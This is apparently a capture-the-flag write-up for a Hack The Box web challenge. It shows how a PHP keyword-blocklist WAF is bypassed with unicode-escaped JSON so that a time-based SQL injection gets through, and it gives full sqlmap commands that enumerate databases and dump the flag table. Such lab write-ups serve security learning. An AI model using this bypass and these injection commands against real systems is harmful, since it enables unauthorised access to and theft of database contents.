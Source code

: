 # Waf-Waf-Challenge-HTB

<img src="img/hackthebox.png">

When we open the page we get:

<img src="img/page.png">

We can see what looks like the ```index.php``` of the page.
In the script you can see that a SQL database is queried and the input of POST requests is filtered using a basic WAF (Web Application firewall), implemented through the ```waf()``` function of the ```db``` class.

<img src="img/pagehigh.png">

The script ends immediately when at least one of the following characters or strings is found
in the input string:

```
[, (, *, <, =, >, |, ', &, -, @, ], select, and, or, if, by, from, where,
as, is, in, not, having
```

The check is not case sensitive.
So this looks like vulnerable to a SQL injection.

Checking what happens when we make a request with one of the words that are filtered by the waf:

```bash
└─# curl http://139.59.174.238:32044/ -X POST -d '{"user":"select"}'
array(1) {
  [0]=>
  string(6) "select"
}
```

A subsequent json_decode is performed on the input string, for what the script expects to receive JSON objects.
Because decoding the string happens after the function checks waf () we can take advantage of the fact that in JSON it is possible to encode characters in UTF-16, which when decoding the JSON, will return to the format original.
Let's do a test:

Para ello haremos una peticion POST con curl la cual capturaremos con Burp Suite (```http://127.0.0.1:8080 ``` es la dirección y puerto del proxy de burp suite)

```bash
└─# curl http://139.59.174.238:32044/ -X POST -d '{"user":"d"}' -x http://127.0.0.1:8080  
```

<img src="img/burp.png">

Once the request is captured, we will send it to the repeater

Where we send it and we appreciate the 149 bytes of the response

<img src="img/burp2.png">

Later we will test if we can evade the waf with a sqli payload, we will use the following payload ```' or sleep(10) #``` which we will encode it to UTF-16 since as we saw previously we will proceed to a ```json_decode ()```.

I use this [unicode converter](https://www.branah.com/unicode-converter)

<img src="img/unicode.png">

Now we load the payload in the request and send it:

<img src="img/burp3.png">

Where we can see that we get a 200 and that there are still 149 response bytes.

Now we will copy the request to a file putting ```*``` where we want the payload to be loaded.

<img src="img/petition.png">

To obtain information in this case we will use a Blind SQL Injection and we will execute the following ```sqlmap``` command we should get the databases available:

```bash
─# sqlmap -r requestt.txt -tamper charunicodeescape -v 3 --batch --level=5 --risk=3 --threads=10 --technique=T --dbs --dbms=mysql
```

<img src="img/databases.png">

We have five databases db_m8452, info_schema, mysql, performance_schema, sys.
Let's extract the list of tables from the database. db_m8452:

```bash
└─# sqlmap -r requestt.txt -tamper charunicodeescape -v 3 --batch --level=5 --risk=3 --threads=10 --technique=T -D db_m8452 --tables --dbms=mysql
```


<img src="img/dbtables.png">

The db_m8452 database has two tables, ```definitely_not_a_flag``` and ```notes```. Now let's dump the contents of the table ```definitely_not_a_flag```:

```bash
└─# sqlmap -r requestt.txt -tamper charunicodeescape -v 3 --batch --level=5 --risk=3 --threads=10 --technique=T -D db_m8452 -T definitely_not_a_flag --dump --dbms=mysql
```

many payloads later .. we got the flag.

<img src="img/dumpflag.png">

Byee
